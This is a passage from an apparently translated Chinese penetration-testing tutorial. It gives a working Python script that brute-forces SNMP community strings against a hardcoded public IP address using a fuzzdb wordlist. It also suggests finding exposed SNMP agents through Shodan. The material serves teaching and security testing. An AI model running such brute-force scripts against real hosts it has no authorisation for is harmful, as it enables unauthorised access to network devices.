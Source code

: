 在本例中，我们尝试查找特定 SNMP 服务器的社区。对于此任务，我们首先从 fuzzdb 获取文件`wordlist-common-snmp-community-strings.txt`，该文件包含可用社区的列表：

[https://github.com/fuzzdb-project/fuzzdb/blob/master/wordlists-misc/wordlist-common-snmp-community-strings.txt](https://github.com/fuzzdb-project/fuzzdb/blob/master/wordlists-misc/wordlist-common-snmp-community-strings.txt)

您可以在文件名中找到以下代码：` snmp_brute_force.py`：

```py
from pysnmp.entity.rfc3413.oneliner import cmdgen

SNMP_HOST = '182.16.190.78'
SNMP_PORT = 161

cmdGen = cmdgen.CommandGenerator()
fd = open("wordlist-common-snmp-community-strings.txt")
for community in fd.readlines():
    snmpCmdGen = cmdgen.CommandGenerator()
    snmpTransportData = cmdgen.UdpTransportTarget((SNMP_HOST, SNMP_PORT),timeout=1.5,retries=0)

    error, errorStatus, errorIndex, binds = snmpCmdGen.getCmd(cmdgen.CommunityData(community), snmpTransportData, "1.3.6.1.2.1.1.1.0", "1.3.6.1.2.1.1.3.0", "1.3.6.1.2.1.2.1.0")
    # Check for errors and print out results
    if error:
        print(str(error)+" For community: %s " %(community))
    else:
        print("Community Found '%s' ... exiting." %(community))
        break
```

要获取服务器和 SNMP 代理，我们可以使用 SNMP 协议和端口`161`在 Shodan 中搜索，得到以下结果：

![](img/f5f7f1fe-e4fd-4ced-8d3f-5fd6802d5712.png)
